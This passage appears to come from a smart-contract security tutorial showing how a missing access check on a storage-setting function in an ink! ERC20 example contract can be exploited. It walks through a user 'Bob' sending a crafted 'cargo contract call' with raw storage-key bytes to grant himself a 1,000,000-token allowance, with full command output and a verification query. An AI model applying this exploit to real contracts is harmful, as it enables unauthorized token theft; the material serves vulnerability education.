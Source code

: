 ```bash
         actual_fee: 98.974204μUNIT
         tip: 0UNIT
       Event System ➜ ExtrinsicSuccess
         dispatch_info: DispatchInfo { weight: Weight { ref_time: 3485758564, proof_size: 30498 }, class: Normal, pays_fee: Yes }
```

Let's assume Bob is a malicious user and he wants to set a higher allowance for himself without Alice's approval. Taking a look at the smart contract, he notices that the function `misused_set_contract_storage()` has no access control validation and uses the `set_contract_storage()` function. Working on the input of this function, he could change the contract's storage and his allowance.

In order to do this, he runs the following command `cargo contract call --contract 5Gj5Z1Nf8NPkaP2iuBQhkJQRt1f7Nt7H2umwbrRRnonnKEQf --message MisusedSetContractStorage::misused_set_contract_storage --args [255,0,0,0,212,53,147,199,21,253,211,28,97,20,26,189,4,169,159,214,130,44,133,88,133,76,205,227,154,86,132,231,165,109,162,125,142,175,4,21,22,135,115,99,38,201,254,161,126,37,252,82,135,97,54,147,201,18,144,156,178,38,170,71,148,242,106,72] 1000000 --suri //Bob`.

```bash
user:example$ cargo contract call --contract 5Gj5Z1Nf8NPkaP2iuBQhkJQRt1f7Nt7H2umwbrRRnonnKEQf --message MisusedSetContractStorage::misused_set_contract_storage --args [255,0,0,0,212,53,147,199,21,253,211,28,97,20,26,189,4,169,159,214,130,44,133,88,133,76,205,227,154,86,132,231,165,109,162,125,142,175,4,21,22,135,115,99,38,201,254,161,126,37,252,82,135,97,54,147,201,18,144,156,178,38,170,71,148,242,106,72] 1000000 --suri //Bob
 Dry-running MisusedSetContractStorage::misused_set_contract_storage (skip with --skip-dry-run)
    Success! Gas required estimated at Weight(ref_time: 7983333376, proof_size: 262144)
Confirm transaction details: (skip with --skip-confirm)
     Message MisusedSetContractStorage::misused_set_contract_storage
        Args [255,0,0,0,212,53,147,199,21,253,211,28,97,20,26,189,4,169,159,214,130,44,133,88,133,76,205,227,154,86,132,231,165,109,162,125,142,175,4,21,22,135,115,99,38,201,254,161,126,37,252,82,135,97,54,147,201,18,144,156,178,38,170,71,148,242,106,72] 1000000
   Gas limit Weight(ref_time: 7983333376, proof_size: 262144)
Submit? (Y/n): y
      Events
       Event Balances ➜ Withdraw
         who: 5FHneW46xGXgs5mUiveU4sbTyGBzmstUspZC92UhjJM694ty
         amount: 98.974241μUNIT
       Event Contracts ➜ Called
         caller: 5FHneW46xGXgs5mUiveU4sbTyGBzmstUspZC92UhjJM694ty
         contract: 5Gj5Z1Nf8NPkaP2iuBQhkJQRt1f7Nt7H2umwbrRRnonnKEQf
       Event TransactionPayment ➜ TransactionFeePaid
         who: 5FHneW46xGXgs5mUiveU4sbTyGBzmstUspZC92UhjJM694ty
         actual_fee: 98.974241μUNIT
         tip: 0UNIT
       Event System ➜ ExtrinsicSuccess
         dispatch_info: DispatchInfo { weight: Weight { ref_time: 2142080861, proof_size: 30498 }, class: Normal, pays_fee: Yes }
```

If we check now Bob's allowance, we see that he has access to 1000000 tokens!

```bash
user:example$ cargo contract call --contract 5Gj5Z1Nf8NPkaP2iuBQhkJQRt1f7Nt7H2umwbrRRnonnKEQf --message BaseErc20::allowance --args 5GrwvaEF5zXb26Fz9rcQpDWS57CtERHpNehXCPcNoHGKutQY 5FHneW46xGXgs5mUiveU4sbTyGBzmstUspZC92UhjJM694ty --suri //Alice --dry-run
      Result Success!
    Reverted false
        Data Ok(1000000)
```
